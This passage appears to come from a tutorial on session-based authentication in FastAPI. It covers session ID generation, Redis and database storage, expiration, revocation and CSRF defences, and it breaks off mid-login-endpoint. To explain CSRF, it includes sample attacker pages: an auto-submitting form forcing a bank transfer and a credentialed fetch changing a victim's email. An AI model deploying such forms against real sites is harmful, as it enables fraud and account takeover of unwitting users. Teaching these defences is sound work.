- Guaranteed uniqueness (collision probability ~0)
- Standardized format (RFC 4122)
- 128-bit entropy

**UUID Cons**:

- Predictable format (attacker knows structure)
- Slightly larger than needed

**Random String**:

```python
def generate_session_id_random() -> str:
    """Generate random string session ID."""
    return secrets.token_urlsafe(32)  # 256-bit

# Example: "xM2kN5pQ8rT9sW3vY7zA4bC6dE1fG0hJ"
```

**Random String Pros**:

- Completely random (no structure)
- Configurable length
- URL-safe by default

**Recommendation**:

```python
# Use secrets.token_urlsafe() for session IDs
# - More entropy (256-bit vs UUID's 122-bit randomness)
# - URL-safe
# - No predictable format

def create_session_id() -> str:
    """Best practice session ID generation."""
    return secrets.token_urlsafe(32)
```

#### Session ID Requirements

**Security Requirements**:

1. **Sufficient Entropy**: Minimum 128-bit, recommended 256-bit
2. **Unpredictable**: Cryptographically secure randomness
3. **Unique**: Collision probability near zero
4. **URL-Safe**: No special characters requiring encoding
5. **Fixed Length**: Consistent for database indexing

**Validation**:

```python
import re

def validate_session_id(session_id: str) -> bool:
    """
    Validate session ID format.

    Requirements:
    - URL-safe base64 characters
    - Length 43 characters (32 bytes base64-encoded)
    """
    pattern = r'^[A-Za-z0-9_-]{43}$'
    return bool(re.match(pattern, session_id))
```

**Complete Session ID Generator**:

```python
import secrets
import hashlib

class SessionIDGenerator:
    """Secure session ID generation."""

    @staticmethod
    def generate() -> str:
        """Generate secure session ID."""
        return secrets.token_urlsafe(32)

    @staticmethod
    def generate_with_prefix(prefix: str = "sess") -> str:
        """Generate session ID with identifiable prefix."""
        random_part = secrets.token_urlsafe(32)
        return f"{prefix}_{random_part}"

    @staticmethod
    def hash_session_id(session_id: str) -> str:
        """
        Hash session ID for storage.
        Prevents session fixation if database compromised.
        """
        return hashlib.sha256(session_id.encode()).hexdigest()
```

### 4.4 Session Storage Options

#### In-Memory Storage (Development)

**Simple Dictionary**:

```python
from datetime import datetime, timedelta

# WARNING: Only for development, lost on restart
sessions: dict[str, dict] = {}

def create_session(user_id: str) -> str:
    """Create session in memory."""
    session_id = generate_session_id()

    sessions[session_id] = {
        "user_id": user_id,
        "created_at": datetime.utcnow(),
        "expires_at": datetime.utcnow() + timedelta(hours=2)
    }

    return session_id

def get_session(session_id: str) -> dict | None:
    """Get session from memory."""
    session = sessions.get(session_id)

    if not session:
        return None

    # Check expiration
    if session["expires_at"] < datetime.utcnow():
        del sessions[session_id]
        return None

    return session
```

**Pros**: Simple, fast
**Cons**: Lost on restart, not scalable, single-process only

#### Redis Storage (Recommended)

**Redis Session Store**:

```python
import redis
import json
from datetime import timedelta

redis_client = redis.Redis(
    host='localhost',
    port=6379,
    db=0,
    decode_responses=True
)

def create_session_redis(user_id: str, expires_in: int = 7200) -> str:
    """
    Create session in Redis.

    Args:
        user_id: User ID
        expires_in: Expiration in seconds (default 2 hours)
    """
    session_id = generate_session_id()

    session_data = {
        "user_id": user_id,
        "created_at": datetime.utcnow().isoformat(),
        "last_activity": datetime.utcnow().isoformat()
    }

    # Store in Redis with automatic expiration
    redis_client.setex(
        f"session:{session_id}",
        expires_in,
        json.dumps(session_data)
    )

    return session_id

def get_session_redis(session_id: str) -> dict | None:
    """Get session from Redis."""
    session_data = redis_client.get(f"session:{session_id}")

    if not session_data:
        return None

    return json.loads(session_data)

def update_session_redis(session_id: str, data: dict):
    """Update session data."""
    session = get_session_redis(session_id)

    if not session:
        return False

    # Merge new data
    session.update(data)
    session["last_activity"] = datetime.utcnow().isoformat()

    # Get remaining TTL
    ttl = redis_client.ttl(f"session:{session_id}")

    # Update with same TTL
    redis_client.setex(
        f"session:{session_id}",
        ttl,
        json.dumps(session)
    )

    return True

def delete_session_redis(session_id: str):
    """Delete session from Redis."""
    redis_client.delete(f"session:{session_id}")
```

**Pros**: Fast, persistent, automatic expiration, scalable
**Cons**: Requires Redis server, additional dependency

#### Database Storage

**SQLAlchemy Model**:

```python
from sqlalchemy import Column, String, DateTime, JSON
from datetime import datetime, timedelta

class Session(Base):
    __tablename__ = "sessions"

    session_id = Column(String(64), primary_key=True, index=True)
    user_id = Column(String, ForeignKey("users.id"), nullable=False)
    data = Column(JSON, default={})
    created_at = Column(DateTime, default=datetime.utcnow)
    expires_at = Column(DateTime, nullable=False)
    last_activity = Column(DateTime, default=datetime.utcnow)

def create_session_db(db: Session, user_id: str) -> str:
    """Create session in database."""
    session_id = generate_session_id()

    session = Session(
        session_id=session_id,
        user_id=user_id,
        expires_at=datetime.utcnow() + timedelta(hours=2)
    )

    db.add(session)
    db.commit()

    return session_id

def get_session_db(db: Session, session_id: str) -> Session | None:
    """Get session from database."""
    session = db.query(Session).filter(
        Session.session_id == session_id,
        Session.expires_at > datetime.utcnow()
    ).first()

    if session:
        # Update last activity
        session.last_activity = datetime.utcnow()
        db.commit()

    return session
```

**Pros**: Persistent, queryable, integrated with user data
**Cons**: Slower than Redis, database overhead

#### Memcached Storage

```python
import memcache
import json

mc = memcache.Client(['127.0.0.1:11211'], debug=0)

def create_session_memcached(user_id: str, expires_in: int = 7200) -> str:
    """Create session in Memcached."""
    session_id = generate_session_id()

    session_data = {
        "user_id": user_id,
        "created_at": datetime.utcnow().isoformat()
    }

    mc.set(f"session:{session_id}", json.dumps(session_data), time=expires_in)

    return session_id
```

**Pros**: Very fast, distributed caching
**Cons**: No persistence (lost on restart), simpler than Redis

### 4.5 Session Storage Comparison

| Storage       | Speed     | Persistence | Scalability | Complexity | Best For                 |
| ------------- | --------- | ----------- | ----------- | ---------- | ------------------------ |
| **In-Memory** | Fastest   | No          | Poor        | Lowest     | Development              |
| **Redis**     | Very Fast | Yes         | Excellent   | Medium     | Production (recommended) |
| **Database**  | Moderate  | Yes         | Good        | Medium     | Small-medium apps        |
| **Memcached** | Very Fast | No          | Excellent   | Low        | High-traffic read-heavy  |

**Recommendation for Production**:

```python
# Use Redis for session storage
# - Fast (in-memory)
# - Persistent (can enable AOF/RDB)
# - Automatic expiration (TTL)
# - Scalable (Redis Cluster)
# - Rich data structures

import redis
from redis import ConnectionPool

# Create connection pool (reuse connections)
pool = ConnectionPool(
    host='localhost',
    port=6379,
    db=0,
    decode_responses=True,
    max_connections=50
)

redis_client = redis.Redis(connection_pool=pool)
```

### 4.6 Implementing Redis Session Storage

**Complete Redis Session Manager**:

```python
import redis
import json
import secrets
from datetime import datetime, timedelta
from typing import Any

class RedisSessionManager:
    """Redis-based session management."""

    def __init__(self, redis_url: str = "redis://localhost:6379/0"):
        self.redis = redis.from_url(redis_url, decode_responses=True)
        self.session_prefix = "session:"

    def create(
        self,
        user_id: str,
        data: dict[str, Any] | None = None,
        expires_in: int = 7200
    ) -> str:
        """
        Create new session.

        Args:
            user_id: User ID
            data: Additional session data
            expires_in: Expiration in seconds (default 2 hours)

        Returns:
            Session ID
        """
        session_id = secrets.token_urlsafe(32)

        session_data = {
            "user_id": user_id,
            "created_at": datetime.utcnow().isoformat(),
            "last_activity": datetime.utcnow().isoformat(),
            **(data or {})
        }

        # Store in Redis with expiration
        self.redis.setex(
            f"{self.session_prefix}{session_id}",
            expires_in,
            json.dumps(session_data)
        )

        return session_id

    def get(self, session_id: str) -> dict[str, Any] | None:
        """
        Get session data.

        Returns:
            Session data dict or None if not found/expired
        """
        key = f"{self.session_prefix}{session_id}"
        session_data = self.redis.get(key)

        if not session_data:
            return None

        # Update last activity
        data = json.loads(session_data)
        data["last_activity"] = datetime.utcnow().isoformat()

        # Refresh session with same TTL
        ttl = self.redis.ttl(key)
        if ttl > 0:
            self.redis.setex(key, ttl, json.dumps(data))

        return data

    def update(self, session_id: str, data: dict[str, Any]) -> bool:
        """
        Update session data.

        Returns:
            True if updated, False if session not found
        """
        session = self.get(session_id)

        if not session:
            return False

        # Merge new data
        session.update(data)
        session["last_activity"] = datetime.utcnow().isoformat()

        # Get remaining TTL and update
        key = f"{self.session_prefix}{session_id}"
        ttl = self.redis.ttl(key)

        if ttl > 0:
            self.redis.setex(key, ttl, json.dumps(session))
            return True

        return False

    def delete(self, session_id: str) -> bool:
        """
        Delete session.

        Returns:
            True if deleted, False if not found
        """
        key = f"{self.session_prefix}{session_id}"
        return self.redis.delete(key) > 0

    def extend(self, session_id: str, additional_seconds: int) -> bool:
        """
        Extend session expiration.

        Args:
            session_id: Session ID
            additional_seconds: Seconds to add to current TTL

        Returns:
            True if extended, False if session not found
        """
        key = f"{self.session_prefix}{session_id}"
        current_ttl = self.redis.ttl(key)

        if current_ttl <= 0:
            return False

        new_ttl = current_ttl + additional_seconds
        return self.redis.expire(key, new_ttl)

    def get_user_sessions(self, user_id: str) -> list[str]:
        """
        Get all session IDs for a user.

        Returns:
            List of session IDs
        """
        session_ids = []

        # Scan all session keys
        for key in self.redis.scan_iter(f"{self.session_prefix}*"):
            session_data = self.redis.get(key)
            if session_data:
                data = json.loads(session_data)
                if data.get("user_id") == user_id:
                    session_id = key.replace(self.session_prefix, "")
                    session_ids.append(session_id)

        return session_ids

    def delete_user_sessions(self, user_id: str) -> int:
        """
        Delete all sessions for a user (logout from all devices).

        Returns:
            Number of sessions deleted
        """
        session_ids = self.get_user_sessions(user_id)

        if not session_ids:
            return 0

        keys = [f"{self.session_prefix}{sid}" for sid in session_ids]
        return self.redis.delete(*keys)

# Initialize session manager
session_manager = RedisSessionManager()
```

**Usage Example**:

```python
from fastapi import FastAPI, Response, Cookie, Depends
from typing import Annotated

app = FastAPI()

@app.post("/login")
async def login(
    response: Response,
    username: str,
    password: str
):
    """Login and create session."""
    # Authenticate user
    user = authenticate_user(username, password)

    if not user:
        raise HTTPException(status_code=401, detail="Invalid credentials")

    # Create session
    session_id = session_manager.create(
        user_id=user.id,
        data={"username": user.username, "role": user.role},
        expires_in=7200  # 2 hours
    )

    # Set session cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=7200,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    return {"message": "Logged in successfully"}

async def get_current_session(
    session_id: Annotated[str | None, Cookie()] = None
) -> dict:
    """Dependency to get current session."""
    if not session_id:
        raise HTTPException(status_code=401, detail="Not authenticated")

    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid or expired session")

    return session

@app.get("/profile")
async def get_profile(
    session: Annotated[dict, Depends(get_current_session)]
):
    """Get user profile (session protected)."""
    return {
        "user_id": session["user_id"],
        "username": session["username"],
        "role": session["role"]
    }

@app.post("/logout")
async def logout(
    response: Response,
    session_id: Annotated[str | None, Cookie()] = None
):
    """Logout and delete session."""
    if session_id:
        session_manager.delete(session_id)

    response.delete_cookie(key="session_id")

    return {"message": "Logged out successfully"}

@app.post("/logout-all")
async def logout_all_devices(
    session: Annotated[dict, Depends(get_current_session)]
):
    """Logout from all devices."""
    deleted_count = session_manager.delete_user_sessions(session["user_id"])

    return {
        "message": f"Logged out from {deleted_count} device(s)"
    }
```

---

## 5. Session Lifecycle Management

### 5.1 Session Creation

**Complete Session Creation Flow**:

```python
from datetime import datetime, timedelta
import secrets

def create_user_session(
    user_id: str,
    remember_me: bool = False,
    device_info: str | None = None,
    ip_address: str | None = None
) -> tuple[str, int]:
    """
    Create user session with full lifecycle management.

    Returns:
        Tuple of (session_id, expires_in_seconds)
    """
    # Generate secure session ID
    session_id = secrets.token_urlsafe(32)

    # Determine expiration
    if remember_me:
        expires_in = 30 * 24 * 60 * 60  # 30 days
    else:
        expires_in = 2 * 60 * 60  # 2 hours

    # Prepare session data
    session_data = {
        "user_id": user_id,
        "created_at": datetime.utcnow().isoformat(),
        "last_activity": datetime.utcnow().isoformat(),
        "expires_at": (datetime.utcnow() + timedelta(seconds=expires_in)).isoformat(),
        "device_info": device_info,
        "ip_address": ip_address,
        "remember_me": remember_me
    }

    # Store in Redis
    session_manager.create(
        user_id=user_id,
        data=session_data,
        expires_in=expires_in
    )

    return session_id, expires_in

@app.post("/login")
async def login(
    response: Response,
    request: Request,
    credentials: LoginRequest,
    remember_me: bool = False
):
    """Login with session creation."""
    # Authenticate
    user = authenticate_user(credentials.username, credentials.password)

    if not user:
        raise HTTPException(status_code=401, detail="Invalid credentials")

    # Create session
    session_id, expires_in = create_user_session(
        user_id=user.id,
        remember_me=remember_me,
        device_info=request.headers.get("User-Agent"),
        ip_address=request.client.host
    )

    # Set cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=expires_in,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    return {
        "message": "Logged in successfully",
        "expires_in": expires_in
    }
```

### 5.2 Session Validation

**Comprehensive Session Validation**:

```python
from fastapi import Request, HTTPException, Cookie
from typing import Annotated

async def validate_session(
    session_id: Annotated[str | None, Cookie()] = None,
    request: Request = None
) -> dict:
    """
    Validate session with security checks.

    Checks:
    - Session exists
    - Not expired
    - IP address consistency (optional)
    - User agent consistency (optional)

    Returns:
        Session data if valid

    Raises:
        HTTPException if invalid
    """
    if not session_id:
        raise HTTPException(
            status_code=401,
            detail="Session cookie required"
        )

    # Get session from Redis
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(
            status_code=401,
            detail="Invalid or expired session"
        )

    # Check expiration (double-check)
    expires_at = datetime.fromisoformat(session["expires_at"])
    if expires_at < datetime.utcnow():
        session_manager.delete(session_id)
        raise HTTPException(status_code=401, detail="Session expired")

    # Optional: Check IP address consistency
    if request and session.get("ip_address"):
        if request.client.host != session["ip_address"]:
            # Log suspicious activity
            log_security_event(
                "ip_mismatch",
                session_id,
                old_ip=session["ip_address"],
                new_ip=request.client.host
            )
            # Optionally invalidate session
            # session_manager.delete(session_id)
            # raise HTTPException(status_code=401, detail="Session invalid")

    return session

@app.get("/protected")
async def protected_endpoint(
    session: Annotated[dict, Depends(validate_session)]
):
    """Protected endpoint with session validation."""
    return {
        "message": "Access granted",
        "user_id": session["user_id"]
    }
```

### 5.3 Session Expiration

#### Absolute Timeout

Session expires at fixed time regardless of activity:

```python
def create_session_absolute_timeout(user_id: str, hours: int = 2) -> str:
    """
    Create session with absolute timeout.
    Expires exactly N hours from creation.
    """
    session_id = secrets.token_urlsafe(32)
    expires_in = hours * 60 * 60

    session_data = {
        "user_id": user_id,
        "created_at": datetime.utcnow().isoformat(),
        "expires_at": (datetime.utcnow() + timedelta(hours=hours)).isoformat(),
        "timeout_type": "absolute"
    }

    session_manager.create(user_id, session_data, expires_in)

    return session_id
```

#### Idle Timeout

Session expires after period of inactivity:

```python
class IdleTimeoutSessionManager:
    """Session manager with idle timeout."""

    def __init__(self, redis_client, idle_timeout: int = 1800):
        self.redis = redis_client
        self.idle_timeout = idle_timeout  # 30 minutes default

    def create(self, user_id: str) -> str:
        """Create session with idle timeout."""
        session_id = secrets.token_urlsafe(32)

        session_data = {
            "user_id": user_id,
            "created_at": datetime.utcnow().isoformat(),
            "last_activity": datetime.utcnow().isoformat(),
            "timeout_type": "idle"
        }

        # Set expiration to idle timeout
        self.redis.setex(
            f"session:{session_id}",
            self.idle_timeout,
            json.dumps(session_data)
        )

        return session_id

    def get(self, session_id: str) -> dict | None:
        """
        Get session and reset idle timer.
        """
        key = f"session:{session_id}"
        session_data = self.redis.get(key)

        if not session_data:
            return None

        session = json.loads(session_data)

        # Update last activity
        session["last_activity"] = datetime.utcnow().isoformat()

        # Reset expiration to idle timeout
        self.redis.setex(key, self.idle_timeout, json.dumps(session))

        return session
```

#### Sliding Expiration

Session expiration extends with each activity:

```python
def validate_session_with_sliding_expiration(
    session_id: str,
    extend_by_seconds: int = 1800
) -> dict:
    """
    Validate session and extend expiration on each access.

    Args:
        session_id: Session ID
        extend_by_seconds: Seconds to extend (default 30 min)

    Returns:
        Session data
    """
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid session")

    # Extend session expiration
    session_manager.extend(session_id, extend_by_seconds)

    return session

@app.get("/activity")
async def activity_endpoint(
    session_id: Annotated[str, Cookie()]
):
    """
    Endpoint with sliding expiration.
    Each access extends session lifetime.
    """
    session = validate_session_with_sliding_expiration(
        session_id,
        extend_by_seconds=1800  # Extend by 30 minutes
    )

    return {"message": "Session extended", "user_id": session["user_id"]}
```

**Expiration Strategy Comparison**:

| Strategy     | Behavior                 | Use Case                        |
| ------------ | ------------------------ | ------------------------------- |
| **Absolute** | Fixed end time           | High-security apps, timed exams |
| **Idle**     | Expires after inactivity | Banking, sensitive operations   |
| **Sliding**  | Extends with activity    | General web apps, user-friendly |

### 5.4 Session Renewal

#### Regenerating Session IDs

```python
def regenerate_session_id(old_session_id: str) -> str:
    """
    Regenerate session ID (session fixation prevention).

    Steps:
    1. Get existing session data
    2. Generate new session ID
    3. Store data with new ID
    4. Delete old session

    Returns:
        New session ID
    """
    # Get existing session
    session_data = session_manager.get(old_session_id)

    if not session_data:
        raise ValueError("Session not found")

    # Generate new session ID
    new_session_id = secrets.token_urlsafe(32)

    # Get remaining TTL from old session
    old_key = f"session:{old_session_id}"
    ttl = session_manager.redis.ttl(old_key)

    if ttl <= 0:
        ttl = 7200  # Default 2 hours

    # Store with new ID
    session_manager.redis.setex(
        f"session:{new_session_id}",
        ttl,
        json.dumps(session_data)
    )

    # Delete old session
    session_manager.delete(old_session_id)

    return new_session_id

@app.post("/privilege-escalation")
async def privilege_escalation(
    response: Response,
    session_id: Annotated[str, Cookie()],
    admin_password: str
):
    """
    Elevate user privileges - regenerate session ID for security.
    """
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid session")

    # Verify admin password
    if not verify_admin_password(session["user_id"], admin_password):
        raise HTTPException(status_code=403, detail="Invalid admin password")

    # Update session with elevated privileges
    session["role"] = "admin"
    session["elevated_at"] = datetime.utcnow().isoformat()

    # Regenerate session ID (security best practice)
    new_session_id = regenerate_session_id(session_id)

    # Update cookie with new session ID
    response.set_cookie(
        key="session_id",
        value=new_session_id,
        httponly=True,
        secure=True,
        samesite="strict"  # More restrictive for admin
    )

    return {"message": "Privileges elevated", "new_session": True}
```

#### When to Renew Sessions

```python
class SessionRenewalPolicy:
    """Define when to regenerate session IDs."""

    @staticmethod
    def should_renew_on_login() -> bool:
        """Always regenerate on login."""
        return True

    @staticmethod
    def should_renew_on_privilege_change() -> bool:
        """Regenerate when privileges change."""
        return True

    @staticmethod
    def should_renew_periodically(session: dict, interval_hours: int = 24) -> bool:
        """Regenerate every N hours."""
        created_at = datetime.fromisoformat(session["created_at"])
        age = datetime.utcnow() - created_at

        return age.total_seconds() > (interval_hours * 3600)

    @staticmethod
    def should_renew_on_ip_change(session: dict, current_ip: str) -> bool:
        """Regenerate on IP address change."""
        return session.get("ip_address") != current_ip
```

### 5.5 Session Revocation

#### Manual Logout

```python
@app.post("/logout")
async def logout(
    response: Response,
    session_id: Annotated[str | None, Cookie()] = None
):
    """
    Logout: delete session and cookie.
    """
    if session_id:
        # Delete session from Redis
        deleted = session_manager.delete(session_id)

        if deleted:
            log_activity("logout", session_id)

    # Delete cookie
    response.delete_cookie(key="session_id", path="/")

    return {"message": "Logged out successfully"}
```

#### Admin Revocation

```python
@app.delete("/admin/sessions/{user_id}")
async def admin_revoke_user_sessions(
    user_id: str,
    admin_session: Annotated[dict, Depends(require_admin)]
):
    """
    Admin endpoint: revoke all sessions for a user.
    """
    deleted_count = session_manager.delete_user_sessions(user_id)

    # Log admin action
    log_admin_action(
        admin_id=admin_session["user_id"],
        action="revoke_sessions",
        target_user=user_id,
        sessions_revoked=deleted_count
    )

    return {
        "message": f"Revoked {deleted_count} session(s) for user {user_id}"
    }
```

#### Security-Based Revocation

```python
def revoke_compromised_sessions(user_id: str, reason: str):
    """
    Automatically revoke sessions based on security events.

    Triggers:
    - Password changed
    - Suspicious activity detected
    - Account compromised
    - Multiple failed login attempts
    """
    # Get all user sessions
    session_ids = session_manager.get_user_sessions(user_id)

    # Delete all sessions
    for session_id in session_ids:
        session_manager.delete(session_id)

        # Log revocation
        log_security_event(
            event_type="session_revoked",
            user_id=user_id,
            session_id=session_id,
            reason=reason
        )

    # Notify user
    send_security_notification(
        user_id=user_id,
        message=f"All sessions revoked due to: {reason}"
    )

    return len(session_ids)

@app.post("/change-password")
async def change_password(
    new_password: str,
    session: Annotated[dict, Depends(get_current_session)]
):
    """
    Change password and revoke all other sessions.
    """
    user_id = session["user_id"]

    # Update password
    update_user_password(user_id, new_password)

    # Revoke all sessions (including current)
    revoke_compromised_sessions(user_id, "password_changed")

    return {
        "message": "Password changed. Please log in again.",
        "sessions_revoked": True
    }
```

---

## 6. CSRF (Cross-Site Request Forgery) Protection

### 6.1 What is CSRF?

Cross-Site Request Forgery (CSRF) is an attack that tricks a victim into submitting malicious requests using their authenticated session. The attack exploits the browser's automatic inclusion of cookies with requests.

**Attack Scenario**:

```
1. User logs into bank.com
2. Bank.com sets session cookie
3. User visits evil.com (without logging out)
4. Evil.com contains: <form action="https://bank.com/transfer" method="POST">
   <input name="to" value="attacker_account">
   <input name="amount" value="1000">
   </form>
   <script>document.forms[0].submit()</script>
5. Browser automatically includes bank.com cookies with request
6. Bank.com processes transfer (thinks it's from legitimate user)
```

**Why CSRF Works**:

- Browsers automatically send cookies with requests
- Server can't distinguish between legitimate and forged requests
- Session authentication doesn't verify request origin

### 6.2 How CSRF Attacks Work

```mermaid
sequenceDiagram
    participant User
    participant LegitSite
    participant AttackerSite

    Note over User,LegitSite: User Authenticates
    User->>LegitSite: Login
    LegitSite->>User: Set-Cookie: session=abc123

    Note over User,AttackerSite: User Visits Attacker Site
    User->>AttackerSite: Browse evil.com
    AttackerSite->>User: HTML with malicious form

    Note over User,LegitSite: CSRF Attack
    User->>LegitSite: POST /transfer (form auto-submitted)<br/>Cookie: session=abc123
    LegitSite->>LegitSite: Validates session ✓
    LegitSite->>LegitSite: Processes transfer ✗

    classDef blue fill:#6B8DBE,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF
    classDef red fill:#C26D63,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF

    class User,LegitSite blue
    class AttackerSite red
```

**CSRF Attack Examples**:

**Example 1: State-Changing Request**:

```html
<!-- Attacker's page -->
<form action="https://bank.com/transfer" method="POST" id="csrf">
  <input type="hidden" name="to_account" value="attacker123" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>
  document.getElementById("csrf").submit();
</script>
```

**Example 2: GET-based Attack** (if API allows state changes via GET):

```html
<!-- Attacker's page -->

```

**Example 3: JSON CSRF** (without proper CORS):

```javascript
// Attacker's JavaScript
fetch("https://api.example.com/update-email", {
  method: "POST",
  credentials: "include", // Include cookies
  body: JSON.stringify({ email: "attacker@evil.com" }),
  headers: { "Content-Type": "application/json" },
});
```

### 6.3 CSRF Prevention Strategies

#### CSRF Tokens

**How CSRF Tokens Work**:

1. Server generates unique token per session
2. Token embedded in forms as hidden field
3. Client sends token with state-changing requests
4. Server validates token matches session

```mermaid
sequenceDiagram
    participant Browser
    participant Server

    Note over Browser,Server: Page Load
    Browser->>Server: GET /form
    Server->>Server: Generate CSRF token
    Server->>Browser: HTML with token<br/><input name="csrf" value="xyz">

    Note over Browser,Server: Form Submission
    Browser->>Server: POST /submit<br/>csrf=xyz (form field)<br/>session=abc (cookie)
    Server->>Server: Validate CSRF token
    Server->>Browser: Success

    classDef blue fill:#6B8DBE,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF
    classDef green fill:#7FAE8A,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF

    class Browser,Server blue
```

**Why Tokens Work**:

- Attacker's page cannot read CSRF token (Same-Origin Policy)
- Without valid token, server rejects request
- Token changes per session, preventing reuse

#### SameSite Cookies

```python
response.set_cookie(
    key="session_id",
    value=session_id,
    samesite="strict",  # Prevents cross-site requests
    httponly=True,
    secure=True
)
```

**SameSite=Strict**: Blocks all cross-site requests (strongest protection)
**SameSite=Lax**: Allows top-level navigation (GET) but blocks POST/AJAX

#### Double Submit Cookies

```python
# Set both session cookie and CSRF cookie
response.set_cookie(key="session_id", value=session_id, httponly=True)
response.set_cookie(key="csrf_token", value=csrf_token, httponly=False)

# Client sends both:
# Cookie: session_id=abc; csrf_token=xyz
# X-CSRF-Token: xyz (from JavaScript)

# Server validates they match
```

#### Custom Headers

```python
@app.post("/api/action")
async def protected_action(x_requested_with: str = Header(None)):
    """
    Require custom header (not possible from <form>).
    """
    if x_requested_with != "XMLHttpRequest":
        raise HTTPException(
            status_code=403,
            detail="Custom header required"
        )
```

**Why This Works**:

- Browsers don't allow setting custom headers from `<form>`
- AJAX can set headers, but requires JavaScript from same origin
- Attacker's site can't set custom headers

### 6.4 Implementing CSRF Tokens

#### Token Generation

```python
import secrets
import hashlib

class CSRFTokenManager:
    """Manage CSRF tokens."""

    @staticmethod
    def generate_token() -> str:
        """Generate cryptographically secure CSRF token."""
        return secrets.token_urlsafe(32)

    @staticmethod
    def hash_token(token: str) -> str:
        """Hash CSRF token for storage."""
        return hashlib.sha256(token.encode()).hexdigest()

csrf_manager = CSRFTokenManager()
```

#### Token Validation

```python
from fastapi import Form, Cookie, HTTPException
from typing import Annotated

async def verify_csrf_token(
    csrf_token: Annotated[str, Form()],
    session_id: Annotated[str, Cookie()],
    db: Session = Depends(get_db)
):
    """
    Verify CSRF token matches session.

    Raises:
        HTTPException if token invalid
    """
    # Get session
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid session")

    # Get stored CSRF token
    stored_token = session.get("csrf_token")

    if not stored_token:
        raise HTTPException(status_code=403, detail="CSRF token not found")

    # Compare tokens (constant-time comparison)
    if not secrets.compare_digest(csrf_token, stored_token):
        raise HTTPException(
            status_code=403,
            detail="Invalid CSRF token"
        )

@app.post("/transfer")
async def transfer_money(
    amount: Annotated[int, Form()],
    to_account: Annotated[str, Form()],
    _csrf: Annotated[str, Depends(verify_csrf_token)]
):
    """
    State-changing endpoint protected by CSRF token.
    """
    # Process transfer
    return {"message": "Transfer successful"}
```

#### Token in Forms

**HTML Form with CSRF Token**:

```html
<form method="POST" action="/transfer">
  <input type="hidden" name="csrf_token" value="{{ csrf_token }}" />
  <input type="text" name="to_account" required />
  <input type="number" name="amount" required />
  <button type="submit">Transfer</button>
</form>
```

**FastAPI Template Rendering**:

```python
from fastapi.templating import Jinja2Templates
from fastapi import Request

templates = Jinja2Templates(directory="templates")

@app.get("/transfer-form")
async def transfer_form(
    request: Request,
    session_id: Annotated[str, Cookie()]
):
    """
    Render form with CSRF token.
    """
    # Generate CSRF token
    csrf_token = csrf_manager.generate_token()

    # Store in session
    session = session_manager.get(session_id)
    session["csrf_token"] = csrf_token
    session_manager.update(session_id, session)

    return templates.TemplateResponse("transfer.html", {
        "request": request,
        "csrf_token": csrf_token
    })
```

#### Token in AJAX Requests

**JavaScript AJAX with CSRF**:

```javascript
// Get CSRF token from cookie or meta tag
const csrfToken = document.querySelector('meta[name="csrf-token"]').content;

// Include in AJAX request
fetch("/api/update", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "X-CSRF-Token": csrfToken,
  },
  body: JSON.stringify({ data: "value" }),
  credentials: "include", // Include cookies
})
  .then((response) => response.json())
  .then((data) => console.log(data));
```

**FastAPI Endpoint for AJAX**:

```python
from fastapi import Header

@app.post("/api/update")
async def update_data(
    data: dict,
    x_csrf_token: Annotated[str, Header()],
    session_id: Annotated[str, Cookie()]
):
    """
    API endpoint with CSRF protection for AJAX.
    """
    # Get session
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid session")

    # Verify CSRF token
    if not secrets.compare_digest(x_csrf_token, session.get("csrf_token", "")):
        raise HTTPException(status_code=403, detail="Invalid CSRF token")

    # Process request
    return {"message": "Updated successfully"}
```

### 6.5 CSRF Token Storage

**Session-Based Storage** (Recommended):

```python
# Store in session (server-side)
session["csrf_token"] = csrf_manager.generate_token()

# Client receives in:
# 1. Hidden form field
# 2. Meta tag for JavaScript access
```

**Cookie-Based Storage** (Double Submit):

```python
# Set both cookies
response.set_cookie(
    key="session_id",
    value=session_id,
    httponly=True  # JavaScript cannot access
)

response.set_cookie(
    key="csrf_token",
    value=csrf_token,
    httponly=False  # JavaScript CAN access
)

# Validation: compare cookie value with header value
```

**Per-Request Tokens**:

```python
def generate_per_request_token(session_id: str, action: str) -> str:
    """
    Generate token tied to specific action.
    More secure but requires careful management.
    """
    data = f"{session_id}:{action}:{secrets.token_hex(16)}"
    return hashlib.sha256(data.encode()).hexdigest()
```

---

## 7. Complete Session Authentication Implementation

### 7.1 User Login Endpoint

```python
from fastapi import FastAPI, Response, Request, Form, HTTPException
from fastapi.security import HTTPBasic
from typing import Annotated
import secrets

app = FastAPI()

class LoginRequest(BaseModel):
    username: str
    password: str
    remember_me: bool = False

@app.post("/login")
async def login(
    response: Response,
    request: Request,
    credentials: LoginRequest,
    db: Session = Depends(get_db)
):
    """
    Complete login endpoint with session creation.

    Steps:
    1. Verify credentials
    2. Create session in Redis
    3. Generate CSRF token
    4. Set session cookie
    5. Set CSRF cookie
    """
    # Step 1: Verify credentials
    user = db.query(User).filter(User.username == credentials.username).first()

    if not user or not verify_password(credentials.password, user.password_hash):
        # Log failed attempt
        log_failed_login(credentials.username, request.client.host)

        raise HTTPException(
            status_code=401,
            detail="Invalid username or password"
        )

    # Check if account is locked
    if user.is_locked:
        raise HTTPException(
            status_code=403,
            detail="Account is locked. Contact support."
        )

    # Step 2: Create session
    csrf_token = csrf_manager.generate_token()

    session_id = session_manager.create(
        user_id=user.id,
        data={
            "username": user.username,
            "role": user.role,
            "csrf_token": csrf_token,
            "ip_address": request.client.host,
            "user_agent": request.headers.get("User-Agent"),
            "login_at": datetime.utcnow().isoformat()
        },
        expires_in=30*24*60*60 if credentials.remember_me else 2*60*60
    )

    # Step 3: Set session cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=30*24*60*60 if credentials.remember_me else 2*60*60,
        httponly=True,
